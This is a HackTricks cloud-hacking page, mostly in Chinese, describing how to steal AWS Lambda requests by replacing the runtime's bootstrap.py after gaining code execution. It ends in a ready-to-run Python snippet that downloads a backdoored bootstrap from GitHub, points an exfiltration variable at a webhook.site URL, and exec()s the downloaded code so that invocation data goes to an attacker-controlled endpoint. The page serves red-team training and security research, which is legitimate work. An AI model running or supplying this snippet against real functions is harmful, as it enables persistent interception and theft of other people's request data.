 # AWS - Steal Lambda Requests

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** 是容器外的一个进程，**发送** **调用** 到 **init** 进程。
2. init 进程监听端口 **9001**，暴露一些有趣的端点：
* **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理响应
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py** 有一个循环从 init 进程获取调用并调用用户代码处理它们 (**`/next`**)。
4. 最后，**bootstrap.py** 将 **响应** 发送给 init

注意，bootstrap 作为模块加载用户代码，因此用户代码执行的任何代码实际上都发生在这个进程中。

## Stealing Lambda Requests

此攻击的目标是让用户代码在处理易受攻击的请求的 **`bootstrap.py`** 进程内执行恶意的 **`bootstrap.py`** 进程。这样，**恶意的 bootstrap** 进程将开始 **与 init 进程通信** 以处理请求，而 **合法的** bootstrap 被 **困住** 运行恶意的，因此它不会向 init 进程请求请求。

由于用户代码由合法的 **`bootstrap.py`** 进程执行，因此实现这一目标很简单。所以攻击者可以：

* **向 init 进程发送当前调用的假结果**，使 init 认为 bootstrap 进程正在等待更多调用。
* 必须向 **`/${invoke-id}/response`** 发送请求
* 可以使用 [**inspect**](https://docs.python.org/3/library/inspect.html) python 模块（如[此处所提议](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）从合法的 **`bootstrap.py`** 进程的堆栈中获取 invoke-id，或者再次请求 **`/2018-06-01/runtime/invocation/next`**（如[此处所提议](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 执行一个恶意的 **`bootstrap.py`** 来处理下一个调用
* 为了隐蔽性，可以将 lambda 调用参数发送到攻击者控制的 C2，然后按常规处理请求。
* 对于此攻击，只需从系统或 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) 获取原始的 **`bootstrap.py`** 代码，添加恶意代码并从当前的 lambda 调用中运行它。

### Attack Steps

1. 找到一个 **RCE** 漏洞。
2. 生成一个 **恶意的** **bootstrap**（例如 [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **执行** 恶意的 bootstrap。

你可以轻松地通过运行以下操作来执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## 参考资料

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享 hacking 技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}
